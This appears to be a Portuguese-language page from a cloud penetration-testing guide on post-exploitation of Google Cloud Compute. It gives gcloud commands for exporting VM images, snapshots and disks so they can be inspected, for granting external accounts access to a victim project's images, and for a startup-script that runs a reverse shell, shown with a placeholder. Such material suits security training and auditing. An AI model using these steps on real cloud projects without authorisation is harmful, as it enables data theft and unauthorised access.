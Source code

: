 # GCP - Computação Pós Exploração

{{#include ../../../banners/hacktricks-training.md}}

## Computação

Para mais informações sobre Computação e VPC (Rede) consulte:

{{#ref}}
../gcp-services/gcp-compute-instances-enum/
{{#endref}}

### Exportar e Inspecionar Imagens localmente

Isso permitiria que um atacante **acessasse os dados contidos dentro de imagens já existentes** ou **criasse novas imagens de VMs em execução** e acessasse seus dados sem ter acesso à VM em execução.

É possível exportar uma imagem de VM para um bucket e, em seguida, baixá-la e montá-la localmente com o comando:
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
Para realizar esta ação, o atacante pode precisar de privilégios sobre o bucket de armazenamento e, com certeza, **privilégios sobre o cloudbuild**, pois é o **serviço** que será solicitado a realizar a exportação.\
Além disso, para que isso funcione, o SA do codebuild e o SA do compute precisam de permissões privilegiadas.\
O SA do cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` precisa de:

- roles/iam.serviceAccountTokenCreator
- roles/compute.admin
- roles/iam.serviceAccountUser

E o SA `<project-id>-compute@developer.gserviceaccount.com` precisa de:

- roles/compute.storageAdmin
- roles/storage.objectAdmin

### Exportar e Inspecionar Snapshots e Discos localmente

Não é possível exportar snapshots e discos diretamente, mas é possível **transformar um snapshot em um disco, um disco em uma imagem** e, seguindo a **seção anterior**, exportar essa imagem para inspecioná-la localmente.
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
### Inspecionar uma Imagem criando uma VM

Com o objetivo de acessar os **dados armazenados em uma imagem** ou dentro de uma **VM em execução** de onde um atacante **criou uma imagem,** é possível conceder a um conta externa acesso à imagem:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
e então crie uma nova VM a partir disso:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Se você não puder conceder acesso à sua conta externa sobre a imagem, poderá iniciar uma VM usando essa imagem no projeto da vítima e **fazer a metadata executar um reverse shell** para acessar a imagem adicionando o parâmetro:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspecionar um Snapshot/Disk anexando-o a uma VM

Com o objetivo de acessar os **dados armazenados em um disco ou um snapshot, você poderia transformar o snapshot em um disco, um disco em uma imagem e seguir os passos anteriores.**

Ou você poderia **conceder acesso a uma conta externa** sobre o disco (se o ponto de partida for um snapshot, conceda acesso sobre o snapshot ou crie um disco a partir dele):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Anexar o disco** a uma instância:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Montar o disco dentro da VM:

1.  **SSH na VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2.  **Identificar o Disco**: Uma vez dentro da VM, identifique o novo disco listando os dispositivos de disco. Normalmente, você pode encontrá-lo como `/dev/sdb`, `/dev/sdc`, etc.
3.  **Formatar e Montar o Disco** (se for um disco novo ou bruto):

- Criar um ponto de montagem:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

- Montar o disco:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Se você **não puder dar acesso a um projeto externo** para o snapshot ou disco, pode ser necessário **realizar essas ações dentro de uma instância no mesmo projeto que o snapshot/disco**.

{{#include ../../../banners/hacktricks-training.md}}

